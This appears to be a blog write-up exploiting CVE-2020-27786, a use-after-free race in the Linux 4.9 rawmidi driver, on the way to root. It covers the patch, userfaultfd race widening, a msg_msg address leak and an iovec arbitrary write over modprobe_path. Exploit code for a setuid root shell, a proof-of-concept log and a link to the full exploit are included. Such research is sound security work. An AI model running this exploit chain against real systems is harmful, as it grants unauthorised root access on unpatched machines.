


## Introduction
In the [previous article](hunting-for-linux-kernel-public-vulnerabilities.html) I described how I identified a good candidate vulnerability using public resources to practise some exploitation techiques. In this blog post I will detail the exploitation phase of a race condition that leads to an Use-After-Free in Linux kernel 4.9.223.
## TL;DR
The vulnerability is a Race Condition that causes a write Use-After-Free. The race window has been extended using the userfaultd technique handling page faults from user-space and using `msg_msg` to leak a kernel address and I/O vectors to obtain a write primitive. With the write primitive, the `modprobe_path` global  variable has been overwritten and a root shell popped.

## RAWMIDI interface
Before facing the vulnerability, let's see few important things needed to follow this write-up. The vulnerable driver is exposed as a character device in `/dev/snd/midiC0D*` (or similar name based on the platform) and depends on [CONFIG_SND_RAWMIDI](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/Kconfig#L21). It exposes the following file operations:
```C
// https://elixir.bootlin.com/linux/v4.9.224/source/sound/core/rawmidi.c#L1507
static const struct file_operations snd_rawmidi_f_ops =
{
	.owner =	THIS_MODULE,
	.read =		snd_rawmidi_read,
	.write =	snd_rawmidi_write,
	.open =		snd_rawmidi_open,
	.release =	snd_rawmidi_release,
	.llseek =	no_llseek,
	.poll =		snd_rawmidi_poll,
	.unlocked_ioctl =	snd_rawmidi_ioctl,
	.compat_ioctl =	snd_rawmidi_ioctl_compat,
};
```

The ones we are interesed into are `open`, `write` and `unlocked_ioctl`.

### open
The open ([snd_rawmidi_open](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L374)) operation allocates everything needed to interact with the device, but what is just necessary to know for us is the first allocation of `snd_rawmidi_runtime->buffer` as `GFP_KERNEL` with a size of 4096 (PAGE_SIZE) bytes. This is the [snd_rawmidi_runtime](https://elixir.bootlin.com/linux/v4.9.223/source/include/sound/rawmidi.h#L67) struct:
```C
struct snd_rawmidi_runtime {
	struct snd_rawmidi_substream *substream;
	unsigned int drain: 1,	/* drain stage */
		     oss: 1;	/* OSS compatible mode */
	/* midi stream buffer */
	unsigned char *buffer;	/* buffer for MIDI data */
	size_t buffer_size;	/* size of buffer */
	size_t appl_ptr;	/* application pointer */
	size_t hw_ptr;		/* hardware pointer */
	size_t avail_min;	/* min avail for wakeup */
	size_t avail;		/* max used buffer for wakeup */
	size_t xruns;		/* over/underruns counter */
	/* misc */
	spinlock_t lock;
	wait_queue_head_t sleep;
	/* event handler (new bytes, input only) */
	void (*event)(struct snd_rawmidi_substream *substream);
	/* defers calls to event [input] or ops->trigger [output] */
	struct work_struct event_work;
	/* private data */
	void *private_data;
	void (*private_free)(struct snd_rawmidi_substream *substream);
};
```

### write
After having allocated everything from the `open` operation, we can write into the file descriptor like `write(fd, &buf, 10)`. In that way, it will fill 10 bytes into the `snd_rawmidi_runtime->buffer` and using `snd_rawmidi_runtime->appl_ptr` it will remember the offset to start writing again later.
In order to write into that buffer, the driver does the following calls: [snd_rawmidi_write](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L1309) => [snd_rawmidi_kernel_write1](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L1242) => `copy_from_user`


### ioctl
The [snd_rawmidi_ioctl](https://elixir.bootlin.com/linux/v4.9.223/C/ident/snd_rawmidi_ioctl) is responsible to handle IOCTL commands and the one we are interested in is `SNDRV_RAWMIDI_IOCTL_PARAMS` that calls [snd_rawmidi_output_params](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L637) with user-controllable parameter:
```C
int snd_rawmidi_output_params(struct snd_rawmidi_substream *substream,
			      struct snd_rawmidi_params * params)
{
	// [..] few checks
	if (params->buffer_size != runtime->buffer_size) {
		newbuf = kmalloc(params->buffer_size, GFP_KERNEL); //[1]
		if (!newbuf)
			return -ENOMEM;
		spin_lock_irq(&runtime->lock);
		oldbuf = runtime->buffer;
		runtime->buffer = newbuf; // [2]
		runtime->buffer_size = params->buffer_size;
		runtime->avail = runtime->buffer_size;
		runtime->appl_ptr = runtime->hw_ptr = 0;
		spin_unlock_irq(&runtime->lock);
		kfree(oldbuf); //[3]
	}
	// [..]
}
```

This IOCTL is crucial for this vulnerability. With this command it's possible to re-size the internal buffer with an arbitrary value reallocating it[1] and later replace that buffer with the older one [2], that will be freed[3].

## Vulnerability Analysis
The vulnerability has been patched by the commit "c13f1463d84b86bedb664e509838bef37e6ea317" that introduced a reference counter on the targeted vulnerable buffer. In order to understand where the vulnerbility lived it's a good thing to see its patch:
```diff
diff --git a/include/sound/rawmidi.h b/include/sound/rawmidi.h
index 5432111c8761..2a87128b3075 100644
--- a/include/sound/rawmidi.h
+++ b/include/sound/rawmidi.h
@@ -76,6 +76,7 @@ struct snd_rawmidi_runtime {
        size_t avail_min;       /* min avail for wakeup */
        size_t avail;           /* max used buffer for wakeup */
        size_t xruns;           /* over/underruns counter */
+       int buffer_ref;         /* buffer reference count */
        /* misc */
        spinlock_t lock;
        wait_queue_head_t sleep;
diff --git a/sound/core/rawmidi.c b/sound/core/rawmidi.c
index 358b6efbd6aa..481c1ad1db57 100644
--- a/sound/core/rawmidi.c
+++ b/sound/core/rawmidi.c
@@ -108,6 +108,17 @@ static void snd_rawmidi_input_event_work(struct work_struct *work)
                runtime->event(runtime->substream);
 }
 
+/* buffer refcount management: call with runtime->lock held */
+static inline void snd_rawmidi_buffer_ref(struct snd_rawmidi_runtime *runtime)
+{
+       runtime->buffer_ref++;
+}
+
+static inline void snd_rawmidi_buffer_unref(struct snd_rawmidi_runtime *runtime)
+{
+       runtime->buffer_ref--;
+}
+
 static int snd_rawmidi_runtime_create(struct snd_rawmidi_substream *substream)
 {
        struct snd_rawmidi_runtime *runtime;
@@ -654,6 +665,11 @@ int snd_rawmidi_output_params(struct snd_rawmidi_substream *substream,
                if (!newbuf)
                        return -ENOMEM;
                spin_lock_irq(&runtime->lock);
+               if (runtime->buffer_ref) {
+                       spin_unlock_irq(&runtime->lock);
+                       kfree(newbuf);
+                       return -EBUSY;
+               }
                oldbuf = runtime->buffer;
                runtime->buffer = newbuf;
                runtime->buffer_size = params->buffer_size;
@@ -962,8 +978,10 @@ static long snd_rawmidi_kernel_read1(struct snd_rawmidi_substream *substream,
        long result = 0, count1;
        struct snd_rawmidi_runtime *runtime = substream->runtime;
        unsigned long appl_ptr;
+       int err = 0;
 
        spin_lock_irqsave(&runtime->lock, flags);
+       snd_rawmidi_buffer_ref(runtime);
        while (count > 0 && runtime->avail) {
                count1 = runtime->buffer_size - runtime->appl_ptr;
                if (count1 > count)
@@ -982,16 +1000,19 @@ static long snd_rawmidi_kernel_read1(struct snd_rawmidi_substream *substream,
                if (userbuf) {
                        spin_unlock_irqrestore(&runtime->lock, flags);
                        if (copy_to_user(userbuf + result,
-                                        runtime->buffer + appl_ptr, count1)) {
-                               return result > 0 ? result : -EFAULT;
-                       }
+                                        runtime->buffer + appl_ptr, count1))
+                               err = -EFAULT;
                        spin_lock_irqsave(&runtime->lock, flags);
+                       if (err)
+                               goto out;
                }
                result += count1;
                count -= count1;
        }
+ out:
+       snd_rawmidi_buffer_unref(runtime);
        spin_unlock_irqrestore(&runtime->lock, flags);
-       return result;
+       return result > 0 ? result : err;
 }
 
 long snd_rawmidi_kernel_read(struct snd_rawmidi_substream *substream,
@@ -1262,6 +1283,7 @@ static long snd_rawmidi_kernel_write1(struct snd_rawmidi_substream *substream,
                        return -EAGAIN;
                }
        }
+       snd_rawmidi_buffer_ref(runtime);
        while (count > 0 && runtime->avail > 0) {
                count1 = runtime->buffer_size - runtime->appl_ptr;
                if (count1 > count)
@@ -1293,6 +1315,7 @@ static long snd_rawmidi_kernel_write1(struct snd_rawmidi_substream *substream,
        }
       __end:
        count1 = runtime->avail < runtime->buffer_size;
+       snd_rawmidi_buffer_unref(runtime);

```

Two functions were added: [snd_rawmidi_buffer_ref](https://elixir.bootlin.com/linux/v4.9.224/source/sound/core/rawmidi.c#L112) and [snd_rawmidi_buffer_unref](https://elixir.bootlin.com/linux/v4.9.224/source/sound/core/rawmidi.c#L117). They are respectively used to take and remove a reference to the buffer using `snd_rawmidi_runtime->buffer_ref` when it is copying ([snd_rawmidi_kernel_read1](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L957)) or writing ([snd_rawmidi_kernel_write1](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L1242)) into that buffer. But why this was needed? Because read and write operations handled by [snd_rawmidi_kernel_write1](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L1242) and [snd_rawmidi_kernel_read1](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L957) temporarly unlock the runtime lock during the copying from/to userspace using `spin_unlock_irqrestore`[1]/`spin_lock_irqrestore`[2] giving a small race window where the object can be modified during the `copy_from_user` call:
```C
static long snd_rawmidi_kernel_write1(struct snd_rawmidi_substream *substream, const unsigned char __user *userbuf, const unsigned char *kernelbuf, long count) {
	// [..]
			spin_unlock_irqrestore(&runtime->lock, flags); // [1]
			if (copy_from_user(runtime->buffer + appl_ptr,
					   userbuf + result, count1)) {
				spin_lock_irqsave(&runtime->lock, flags);
				result = result > 0 ? result : -EFAULT;
				goto __end;
			}
			spin_lock_irqsave(&runtime->lock, flags); // [2]
	// [..]

}
```

If a concurrent thread re-allocate the `runtime->buffer` using the `SNDRV_RAWMIDI_IOCTL_PARAMS` ioctl, that thread can lock the object from `spin_lock_irq` [1] (that has been left unlocked in the small race window given by `snd_rawmidi_kernel_write1`) and free that buffer[2], making possible to re-allocate an arbitrary object and write on that. Also, the `kmalloc`[3] in `snd_rawmidi_output_params` is called with `params->buffer_size` that is totally user controllable.

```C
int `snd_rawmidi_output_params`(struct snd_rawmidi_substream *substream,
			      struct snd_rawmidi_params * params)
{
	// [..]
	if (params->buffer_size != runtime->buffer_size) {
		newbuf = kmalloc(params->buffer_size, GFP_KERNEL); // [3]
		if (!newbuf)
			return -ENOMEM;
		spin_lock_irq(&runtime->lock); // [1]
		oldbuf = runtime->buffer;
		runtime->buffer = newbuf;
		runtime->buffer_size = params->buffer_size;
		runtime->avail = runtime->buffer_size;
		runtime->appl_ptr = runtime->hw_ptr = 0;
		spin_unlock_irq(&runtime->lock);
		kfree(oldbuf); // [3]
	}
	// [..]
}
```

What happen if, while a thread is writing into the buffer with `copy_from_user`, another thread frees that buffer using the `SNDRV_RAWMIDI_IOCTL_PARAMS` ioctl and reallocates a new arbitrary one? The object is replaced with an new one and the `copy_from_user` will continue writing into another object (the "victim object") corrupting its values => User-After-Free (Write).

The really good part about this vulnerability is the "freedom" you can have:
- It's possible to call `kmalloc` with an arbitrary size (and this will be the freed object that we are going to replace to cause a UAF) which means that we can target our favourite slab cache (based on what we need, ofc)
- We can write as much as we want in the buffer with the `write` syscall

## Extend the Race Time Window
We know we have a small race window with few instructions while copying data from userland to kernel as explained before, but the great news is that we have a `copy_from_user` that can be suspended arbitrarly handling page fault in user-space ! Since I was exploiting the vulnerability in a 4.9 kernel (4.9.223) and hence userfaultd is still not unprivileged as in >5.11, we can still use it to extend our race window and have the necessary time to re-allocate a buffer!

## Exploitation Plan
We stated that we are going to use the userfaultd technique to extend the time window. If you are new to this technique is well explained [here](https://lwn.net/Articles/819834/), in this [video](https://www.youtube.com/watch?v=6dFmH_JEF4s) (you can use substitles) and [here](https://blog.lizzie.io/using-userfaultfd.html). To summarize: you can handle page faults from user-land, temporarly blocking kernel execution while handling the page fault. If we `mmap` a block of memory with `MAP_ANONYMOUS` flag, the memory will be demand-zero paged, meaning that it's not yet allocated and we can allocate it via userfaultd.
The idea using this technique is:
- Initialize the `runtime->buffer` with `open` => This will allocate the buffer with 4096 size (that will land in `kmalloc-4096`)
- Send `SNDRV_RAWMIDI_IOCTL_PARAMS` ioctl command in order to re-allocate the buffer with our desired size (e.g. 30 wil land in `kmalloc-32`)
- Allocate with `mmap` a demand-zero paged (`MAP_ANON`) and initialize `userfaultd` to handle its page fault
- `write` to the rawmidi file descriptor using our previously allocated mmaped memory => This will trigger the userland page fault in `copy_from_user`
- While the kernel thread is suspended waiting for the userland page fault we can send again the `SNDRV_RAWMIDI_IOCTL_PARAMS` in order to free the current `runtime->buffer`
- We allocate an object in, for example, `kmalloc-32` and if we did some spray before on that cache it will take the place of the previous freed `runtime->buffer`
- We release the page fault from userland and the `copy_from_user` will continue writing its data (totally in user control) to the new allocated object

With this primitive, we can forges arbitrary objects with **arbitrary size** (specified in the `write` syscall), **arbitrary content**, **arbitrary offset** (since we can trigger userfaultd between two pages as demostrated later on) and **arbitrary cache** (we can control the size allocation in the `SNDRV_RAWMIDI_IOCTL_PARAMS` ioctl).
As you can deduce, we have a really great and powerful primitive !

## Information Leak
### Victim Object
We are going to use what we previously explained in the "Exploitation Plan" section to leak an address that we will re-use to have an arbitrary write. Since we can choose which cache trigger the UAF on (and that's gold from an exploitation point of view) I choose to leak the `shm_file_data->ns` pointer that points to `init_ipc_ns` in the kernel `.data` section and it lives in `kmalloc-32` (I also used the same function to spray the `kmalloc-32` cache):

```C
void alloc_shm(int i)
{
	int shmid[0x100]     = {0};
	void *shmaddr[0x100] = {0};
    shmid[i] = shmget(IPC_PRIVATE, 0x1000, IPC_CREAT | 0600);
    if (shmid[i]  < 0) errExit("shmget");
    shmaddr[i] = (void *)shmat(shmid[i], NULL, SHM_RDONLY);
    if (shmaddr[i] < 0) errExit("shmat");
}
alloc_shm(1)
```

From that pointer, we will deduce the pointer of `modprobe_path` in order to use that technique later to elevate our privileges.

### msg_msg
```C
struct msg_msg {
	struct list_head m_list;
	long m_type;
	size_t m_ts;		/* message text size */
	struct msg_msgseg *next;
	void *security;
	/* the actual message follows immediately */
};

struct msg_msgseg {
	struct msg_msgseg *next;
	/* the next part of the message follows immediately */
};

```
In order to leak that address, however, we have to compromise some other object in `kmalloc-32`, maybe a length field that would read after its own object. For that case, `msg_msg` is our perfect match because it has a length field specified in its `msg_msg->m_ts` and it can be allocated in almost any cache starting from `kmalloc-32` to `kmalloc-4096`, with just one downside: The minimun allocation for the `msg_msg` struct is 48 (`sizeof(struct msg_msg)`) and it can lands minimun at `kmalloc-64`.
If you want to read more about this structure you can checkout [Fire of Salvation Writeup](https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html), [Wall Of Perdition](https://syst3mfailure.io/wall-of-perdition) and the [kernel source code](https://elixir.bootlin.com/linux/v4.9.223/source/ipc/msg.c).
However, when a message is sent using `msgsnd` with size more than [DATALEN_MSG](https://elixir.bootlin.com/linux/v4.9.223/source/ipc/msgutil.c#L46) (`((size_t)PAGE_SIZE-sizeof(struct msg_msg))`) that is 4096-48, a segment (or multiple segments if needed) is allocated, and the message is splitted between the `msg_msg` (the payload is just after the struct headers) and the `msg_msgseg`, with the total size of the message specified in `msg_msg->m_ts`. 

In order to allocate our target object in `kmalloc-32` we have to send a message with size: ( ( 4096 - 48 ) + 10 ).
- The `msg_msg` structure will be allocated in `kmalloc-4096` and the first (4096 - 48) bytes will be written in the `msg_msg` structure.
- To allocate the remaining 10 bytes, a segment `msg_msgseg` will be allocated in `kmalloc-32`

With these conditions, we can forge the `msg_msg` structure in `kmalloc-4096` overwriting its `m_ts` value with our UAF and with `msgrcv` we can receive a message that will contains values past our segment allocated in `kmalloc-32` (including our targeted `init_ipc_ns` pointer).

#### Dealing with offsets
However, we want to overwrite the `m_ts` value without overwriting anything else in the `msg_msg` structure, how we can do that?
If you remember, I said we can overwrite chunks with arbitrary size, content and **offset**. If we create a `mmap` memory with size `PAGE_SIZE * 2` (two pages) and we handle the page fault only for the second page, we can start writing into the original `runtime->buffer` and trigger the page fault when it receives the `msg_msg->m_ts` offset (0x18). Now that the kernel thread is blocked, it's possible to replace the object with `msg_msg` and when the `copy_from_user` resumes, it will starts writing exactly at the `msg_msg->m_ts` value the remaining bytes. The size we are writing into the file descriptor is (0x18 + 0x2) since the first 0x18 bytes will be used to land at the exact offset and the 2 remaining bytes will write `0xffff` in `msg_msg->m_ts`. The concept is also explained in the following picture:



Now from the received message from `msgrcv` we can retrieve the `init_ipc_ns` pointer from `shm_file_data` and we can deduce the `modprobe_path` address calculating its offset and proceed with the arbitrary write phase.

## Arbitrary Write
In order to write at arbitrary locations we are using the same userfault technique described above but instead of targeting `msg_msg` we will use the Vectored I/O (`pipe` + `iovec`) primitive. This primitive has been fixed in kernel 4.13 with [copyin](https://elixir.bootlin.com/linux/v4.13.1/source/lib/iov_iter.c#L142) and [copyout](https://elixir.bootlin.com/linux/v4.13.1/source/lib/iov_iter.c#L133) wrappers, with an `access_ok` addition. This technique has been widely used exploiting the Android Binder CVE-2019-2215 and is well detailed [here](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html) and [here](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/exploitation.html#leaking-task-struct-pointer).

The idea is to trigger the UAF once again but targeting the [iovec](https://elixir.bootlin.com/linux/v4.9.223/source/include/uapi/linux/uio.h#L16) struct:

```C
struct iovec
{
	void __user *iov_base;	/* BSD uses caddr_t (1003.1g requires void *) */
	__kernel_size_t iov_len; /* Must be size_t (1003.1g) */
};
```

The [minimun allocation](https://elixir.bootlin.com/linux/v4.9.223/source/fs/read_write.c#L792) for `iovec` occurs with `sizeof(struct iovec) * 9` or `16 * 9` (144) that will land at `kmalloc-192` (otherwise it is stored in the stack). However I choose to allocate 13 vectors using `readv` to make the object land in `kmalloc-256`.
```C
    int pipefd[2];
    pipe(pipefd)
    // [...]
    struct iovec iov_read_buffers[13] = {0};
    char read_buffer0[0x100];
    memset(read_buffer0, 0x52, 0x100);
    iov_read_buffers[0].iov_base = read_buffer0;
    iov_read_buffers[0].iov_len= 0x10;
    iov_read_buffers[1].iov_base = read_buffer0;
    iov_read_buffers[1].iov_len= 0x10;
    iov_read_buffers[8].iov_base = read_buffer0;
    iov_read_buffers[8].iov_len= 0x10;
    iov_read_buffers[12].iov_base = read_buffer0;
    iov_read_buffers[12].iov_len= 0x10;

    if(!fork()){
        ssize_t readv_res = readv(pipefd[0], iov_read_buffers, 13); // 13 * 16 = 208 => kmalloc-256
        exit(0);
    }
```

The `readv` is a blocking call that **stays** (does not free) the object in the kernel so that we can corrupt it using our UAF and re-use it later with our arbitrary modified content. If we corrupt the `iov_base` of an `iovec` structure we can write at arbitrary kernel addresses with a `write` syscall since it is uses the unsafe [\_\_copy_from_user](https://elixir.bootlin.com/linux/v4.9.223/source/lib/iov_iter.c#L267) (same as `copy_from_user` but without checks).



Our idea is:
- Resize the `runtime->buffer` with `SNDRV_RAWMIDI_IOCTL_PARAMS` in order to lands into`kmalloc-256` with a size greater than 192
- `write` into the file descriptor specifycing a demanded-zero paged memory (`MAP_ANON`) so that `copy_from_user` will stop its execution waiting for our user-land page fault handler
- While the kernel thread is waiting, free the buffer using again the re-size ioctl command `SNDRV_RAWMIDI_IOCTL_PARAMS`
- Allocate the `iovec` struct using `readv` that will replace the previously allocated `runtime->buffer`
- Resume the kernel execution releasing the page fault handler. Now the `copy_from_user` will start to write into the `iovec` structure and we will overwrite `iov[1].iov_base` with the `modprobe_path` address.

Now, in order to overwrite the `modprobe_path` value we just have to write our arbitrary content using the `write` syscall into `pipe[0]`. In the released exploit I overwrote the second iov entry (`iov[1]`) using the same technique described before with adjacent pages. However, it's also possible to directly overwrite the first `iov[0].iov_base`.

Nice ! Now we have overwritten `modprobe_path` with `/tmp/x` and .. it's time to pop a shell !

### modprobe_path & uid=0
If you are not familiar with `modprobe_path` I suggest you to check out [Exploiting timerfd_ctx Objects In The Linux Kernel](https://syst3mfailure.io/hotrod) and the [man page](https://man7.org/linux/man-pages/man2/userfaultfd.2.html).
To summarize, `modprobe_path` is a global variable with a default value of `/sbin/modprobe` used by `call_usermodehelper_exec` to execute a user-space program in case a program with an unkown header is executed.
Since we have overwritten `modprobe_path` with `/tmp/x`, when a file with an unknown header is executed, our controllable script is executed as root.

These are the exploit functions that prepares and later executes a suid shell:

```C
void prep_exploit(){
    system("echo '#!/bin/sh' > /tmp/x");
    system("echo 'touch /tmp/pwneed' >> /tmp/x");
    system("echo 'chown root: /tmp/suid' >> /tmp/x");
    system("echo 'chmod 777 /tmp/suid' >> /tmp/x");
    system("echo 'chmod u+s /tmp/suid' >> /tmp/x");
    system("echo -e '\xdd\xdd\xdd\xdd\xdd\xdd' > /tmp/nnn");
    system("chmod +x /tmp/x");
    system("chmod +x /tmp/nnn");
}

void get_root_shell(){
    system("/tmp/nnn 2>/dev/null");
    system("/tmp/suid 2>/dev/null");
}

int main(){
	prep_exploit();
	// [..] exploit stuff
	get_root_shell(); // pop a root shell
}

```

What the exploit does is simply create the `/tmp/x` binary that will suid as root a file dropped in `/tmp/suid` and create a file with an unknown header (`/tmp/nnn`) that will trigger the execution as root of `/tmp/x` from `call_usermodehelper_exec`. After that, the `/tmp/suid` gives root privileges and spawns a root shell.

POC:
```bash
/ $ uname -a                                   
Linux (none) 4.9.223 #3 SMP Wed Jun 1 23:15:02 CEST 2022 x86_64 GNU/Linux 
/ $ id
uid=1000(user) gid=1000 groups=1000
/ $ /main 
[*] Starting exploitation ..
[+] userfaultfd registered
[*] First write to init substream..
[*] Resizing buffer_size to 4096 ..
[*] snd_write triggered (should fault) 
[*] Freeing buf using SNDRV_RAWMIDI_IOCTL_PARAMS
[+] Page Fault triggered for 0x5551000!
[*] Replacing freed obj with msg_msg .
[*] Waiting for userfaultd to finish ..
[*] Page fault thread terminated
[+] Page fault lock released
[+] init_ipc_ns @0xffffffff81e8d560
[+] calculated modprobe_path @0xffffffff81e42a00
[+] Starting the arbitrary write phase ..
[*] Closing and reopening re-opening rawmidi fd ..
[+] userfaultfd registered
[*] First write to init substream..
[*] Resizing buffer_size to land into kmalloc-256 ..
[*] snd_write triggered (should fault) 
[*] Freeing buf from SNDRV_RAWMIDI_IOCTL_PARAMS
[+] Page Fault triggered for 0x7771000!
[*] Waiting for readv ..
[*] Page fault thread terminated
[+] Page fault lock released
[*] Writing into the pipe ..
[*] write = 24
[+] enjoy your r00t shell [:
/ # id
uid=0(root) gid=0 groups=1000
/ #
```

## Conclusion
That was my journey into exploiting a known vulnerability in the `4.9.223` kernel. You can find the whole exploit on github: https://github.com/kiks7/CVE-2020-27786-Kernel-Exploit.

## References
- https://elixir.bootlin.com/linux/v4.9.223/source/
- https://lwn.net/Articles/819834/
- https://www.youtube.com/watch?v=6dFmH_JEF4s
- https://blog.lizzie.io/using-userfaultfd.html
- https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html
- https://syst3mfailure.io/wall-of-perdition
- https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
- https://cloudfuzz.github.io/android-kernel-exploitation/chapters/exploitation.html#leaking-task-struct-pointer
- https://syst3mfailure.io/hotrod
- https://man7.org/linux/man-pages/man2/userfaultfd.2.html
- https://github.com/kiks7/CVE-2020-27786-Kernel-Exploit
